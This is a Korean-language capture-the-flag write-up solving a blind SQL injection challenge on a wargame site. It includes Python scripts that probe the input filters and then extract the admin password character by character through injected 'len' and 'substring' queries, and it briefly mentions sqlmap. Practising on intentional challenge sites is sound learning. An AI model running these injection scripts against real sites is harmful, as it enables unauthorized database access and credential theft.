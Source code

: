 ```yaml
---
layout: default
title: Day25
nav_order: 4

parent: Hacking Project - W4
grand_parent: P4C
---
```


##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----

# > http://suninatas.com/

Web문제의 단계가 8번에서 22번으로 뻥튀기 되었는데 바로 blind sql injection이었다.  
dreamhack과 구글링을 통해 시도해보았다.

## challenge 22

![image-20220512163438440](../img/image-20220512163438440.png)

장르는 소개되어 있다시피 블라인드 인젝션이고 필터링을 적용 시킨 듯 하다.  
필터링이 될 경우에는 "No hack" 이 출력되고, 로그인이 실패라면 "False", 성공하면 "OK"가 출력된다.  
어떤 식으로 필터링이 되는지는 모르겠지만 위에 적힌 단어 이외에도 대부분이 필터링된다.  
"No hack" 이 뜨는 것을 기준으로 필터링이 되는 것을 알아보면

`(`,`and`,`||`,`=` ,`^`, ... 

몇 개 시도를 안 해봤지만 노가다 성이 짙어 보여 가능한 기호들이 무엇이 있는지 파이썬을 이용해서 알아보기로 했다.

```python
import requests

def request(uid,upw):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw={upw}'
	response = requests.get(url)
	return response


for i in range(33,128):
	uid = 'guest'
	upw = chr(i)
	response = request(uid,upw)
	if "No hack" not in response.text:
		print(chr(i),end=' / ')

print('\n')
```

아래는 결과 캡쳐이다.

![image-20220512172545181](../img/image-20220512172545181.png)

해당 결과를 보다가 `&`가 안되는데 된다고 뜨길래 직접 몇 개를 테스트하던 중에 문득 '대소문자 구분은 하나?' 싶어서 테스트를 해봤는데 `select`는 불가능하지만 s가 대문자인 `Select`는 "False"가 뜨는 것으로 보아 가능한 것으로 보인다. 근데 또 생각해보면 결과 값이 쿼리 문에 대한 결과가 아니라서 어떡하나 싶다.

![image-20220512175907046](../img/image-20220512175907046.png)

통신 간격 때문인지 `&` 기호에 대한 응답이 "No hack" 으로 오지 않을 때가 있어서 `sleep()`으로 간격을 두었다.  
그리고 곰곰히 생각해봐도 SQL의 함수도 쓸 수가 없는데 도대체 어떡해야 하는 거지? 모르겠다.



<br>



혹시나 소스 코드에 필터링 방법에 대한 힌트가 있는지 보았는데 admin의 비밀번호를 찾아야 한다고 한다.  
`' or 1=1` 이런 건 안 통하고 sleep함수나 와일드 카드를 쓰라는 것 같은데... 다시 도전이다.

```html
<!-- Hint : guest / guest & Your goal is to find the admin's pw -->
<!-- M@de by 2theT0P -->
```



<br>



진짜 멍청했던 점이 자꾸 비밀번호 란에서 실패를 했는데 아이디 란에 시도를 안 했었다.  
`--` 기호가 주석인 점을 기억해서 해봤더니 아래처럼 로그인 자체는 되는데 비밀번호는 모른다.  
그리고 아이디 란에서는 대소문자 구분이 있어서 select 문이 불가능하다.

![image-20220512181053554](../img/image-20220512181053554.png)

그럼 어떤 식으로 진행해야 할지 생각하다가 `len()`과 같은 함수들을 이용해서 하나 하나 조각을 맞춰 보기로 했다.  
아 그리고 위의 삽질에서 비밀번호를 대상으로만 확인을 했었기에 아이디에도 확인해보았더니

![image-20220512182748231](../img/image-20220512182748231.png)

`(` 기호가 가능해서 함수들을 사용할 수 있다는 점도 인지한 상태이다.  
개발 단계에서 mysql을 써봤기에 몇몇 함수들을 알고 있고 `len()`과 `substr()`을 이용하면 되지 않을까 싶다.



<br>

먼저 비밀번호의 길이부터 찾았다.  
비밀번호의 칼럼명은 소스 코드에서 주어진 name이`pw`길래 guess했다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(1,30):
		uid = f'admin\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break

if __name__ == "__main__":
	find_len_pw()
```

결과를 보면 10 자리라고 한다.

![image-20220512183614730](../img/image-20220512183614730.png)

다음은 비밀번호를 찾아야 하는데 문자열의 특정 문자만 선택하는 `substr`을 이용해야 겠다.



<br>

아주 큰 문제가 생겼는데 아무리 코드를 돌려도 한 글자도 맞추지 못했다.  
쿼리문에 대한 결과문은 "False"로 나와서 필터링에 걸리지는 않는데 아무래도 어딘가 문제가 있다.

찾아보니 `substr`이 아닌 `substring`을 쓰는 DBMS가 있었다. `mssql` 이라고 하는데 이 녀석도 주석을 `--` 로 쓴다.
{: .text-red-000}

일단 1차적으로 함수가 문제였고 2차적으로 문자열 인덱싱에서 0번이 시작이 아니였다.
{: .text-red-000}



<br>



python으로 항상 `from pwn import *`을 가장 많이 썼었는데 최근 들어 `import request`를 더 많이 써보는 것 같다.  
안 될 때마다 갈아 엎었더니 너무 시간이 오래 걸렸다.

```python
import requests

def request(uid):
	url = f'http://suninatas.com/challenge/web22/web22.asp?id={uid}&pw=1234'
	response = requests.get(url)
	return response

def find_len_pw():
	for num in range(1,30):
		uid = f'admin\' and len(pw)>{num}--'
		response = request(uid)
		if "False" in response.text:
			print("Finally I can get pw len: ",num)
			break
	return num

def solve(len):
	
	res = ""
	for idx in range(1,11):
		for i in range(33,127):
			uid = f'admin\' and substring(pw,{idx},1) = \''+chr(i)+'\'--'
			response = request(uid)
			if "OK" in response.text:
				print(f"Wait! I find {idx}'s letter : ",chr(i))
				res += chr(i)
				break
	print(res)

if __name__ == "__main__":
	len_pw = find_len_pw()
	solve(len_pw)
```



결국에 이렇게 풀어버렸다~!

![image-20220512185835110](../img/image-20220512185835110.png)

<br>
<br>
<br>

-----
# > 한번 알아보았습니다.

이번 챌린지를 풀다가 `sqlmap`이라는 툴을 발견했다.  
파이썬으로 만들어진 이 툴은 공격 웹사이트에 존재하는 DB 정보를 얻어낼 수 있었다.  
추후 기회가 되면 직접 써봐야겠다.